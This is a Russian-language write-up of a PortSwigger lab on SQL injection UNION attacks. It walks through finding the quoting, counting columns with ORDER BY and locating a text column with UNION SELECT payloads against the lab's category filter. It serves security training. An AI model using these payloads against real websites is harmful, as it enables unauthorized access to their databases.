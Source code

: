 ```yaml
---
title: "SQL injection UNION attack, finding a column containing text"
date: 2025-06-19
tags: [sql, writeup]
---
```

**Source:** [Coffee Cube](https://t.me/coffee_cube)  
**Lab:** [PortSwigger](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-finding-columns-with-a-useful-data-type/sql-injection/union-attacks/lab-find-column-containing-text)


## Scope
```
https://0ae10098047afc77a0e79a58006d0024.web-security-academy.net/
```

В данной лабе есть уязвимый к **SQL injection** фильтр категории. Нужно найти столбец, в котором используются строки.


## Solution

Из задания известно, что **sqli**** находится в фильтре категории, поэтому возьму `URL` и буду работать с ним:

```
https://0ae10098047afc77a0e79a58006d0024.web-security-academy.net/filter?category=Accessories
```

Теперь нужно найти обрамление параметра. Предположу, что запрос в БД выглядит следующим образом:

```SQL
SELECT * FROM table WHERE category = 'Accessories'
```

Поверю это, передав следующий пейлоад:

```
Accessories' and false-- -
```

Товары не отобразились, значит я нашел обрамление. 

![IMG](/assets/images/IMG_SQL-injection-UNION-attack-finding-a-column-containing-text/1.png){: height="200" .align-center}

Далее найду количество колонок с помощью `ORDER BY`:

```
Accessories' ORDER BY 4-- -ошибка
Accessories' ORDER BY 3-- -ОК
```

Значит в БД 3 колонки. Подставлю `UNION`, чтобы вывести данные на страницу:

```
Accessories' UNION SELECT NULL, NULL, NULL-- -ОК
```

Подставлю свои данные вместо `NULL`:

```
Accessories' UNION SELECT NULL, NULL, NULL-- -
```

Только сейчас заметил, что нужно вывести определенную строку) Ну ок.

![IMG](/assets/images/IMG_SQL-injection-UNION-attack-finding-a-column-containing-text/2.png){: height="200" .align-center}


```
Accessories' UNION SELECT 'xCxqZ9', NULL, NULL-- -ошибка
Accessories' UNION SELECT NULL, 'xCxqZ9', NULL-- -ОК
```

![IMG](/assets/images/IMG_SQL-injection-UNION-attack-finding-a-column-containing-text/3.png){: height="200" .align-center}

Лаба решена:3
